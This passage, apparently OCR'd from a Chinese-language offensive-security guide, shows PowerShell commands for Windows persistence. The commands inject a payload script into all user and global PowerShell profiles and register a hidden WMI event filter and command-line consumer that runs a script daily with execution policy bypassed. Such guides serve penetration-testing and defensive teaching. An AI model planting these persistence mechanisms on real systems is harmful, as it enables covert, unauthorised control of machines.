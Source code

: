    ```
    Add-Content -Path $Profile -Value "C:\path\to\script.ps1"
    ```

+   添加命令以执行当前配置文件：

    ```
    Add-Content -Path $Profile -Value "Invoke-Command ..."
    ```

要将你的有效负载添加到当前主机的每个用户配置文件中，你还可以遍历所有用户配置文件并添加你的脚本或命令：

```
$profiles = Get-ChildItem -Path "C:\Users" -Filter "Profile.ps1" -Recurse
foreach ($profile in $profiles) {
    Add-Content -Path $profile.FullName -Value "C:\windows\system32\HelloWorld.ps1"
}
```

在这个例子中，首先，我们会在 **C:\User** 文件夹中查找所有 PowerShell 用户配置文件，遍历它们并添加 **HelloWorld.ps1** 脚本，该脚本位于 **C:\windows\system32\** 下。

此外，还有一个适用于系统上所有用户的全局配置文件，位于 **$PSHOME\Profile.ps1** 下。**$PSHOME** 是一个自动变量，包含 PowerShell 安装目录的路径：

```
> Add-Content -Path "$PSHOME\Profile.ps1" -Value "C:\path\to\script.ps1"
```

这个命令将编辑全局配置文件，并将你的脚本添加进去，以便每次在此主机上启动 PowerShell 会话时执行。

根据系统或场景的不同，还有其他几种配置文件。你可以在官方文档中找到有关配置文件的更多信息：https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_profiles。

### 使用 WMI 建立持久性

你希望通过 WMI 建立持久性。这是最隐蔽的方法之一，也作为 PowerSploit 中的一项功能提供。

#### 解决方案

要通过 WMI 建立持久性，可以注册一个永久的事件过滤器和消费者，它们将在系统上定期运行，除非被注销。此部分将展示如何实现这一点。

首先，创建一个 WMI 事件过滤器，指定需要发生的事件以触发脚本运行：

```
$filter = Set-WmiInstance -Class __EventFilter -Namespace "root\subscription" -Arguments @{name='WMIPersistenceFilter';EventNameSpace='root\CimV2';QueryLanguage="WQL";Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_LocalTime' AND TargetInstance.Hour = 07 AND TargetInstance.Minute = 00 GROUP WITHIN 60"};
```

在这个示例中，已经创建了**WMIPersistenceFilter**事件过滤器。为了建立持久性，使用一个定期触发的事件是非常有用的。因此，在此示例中，事件将在系统时间为*07:00*时触发。

接下来，创建一个 WMI 命令行事件消费者。此命令旨在每当事件过滤器返回数据时执行：

```
$consumer = Set-WmiInstance -Namespace "root\subscription" -Class 'CommandLineEventConsumer' -Arguments @{ name='WMIPersistenceConsumer';CommandLineTemplate="$($Env:SystemRoot)\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Bypass -File C:\windows\system32\HelloWorld.ps1";RunInteractively='false'};
```
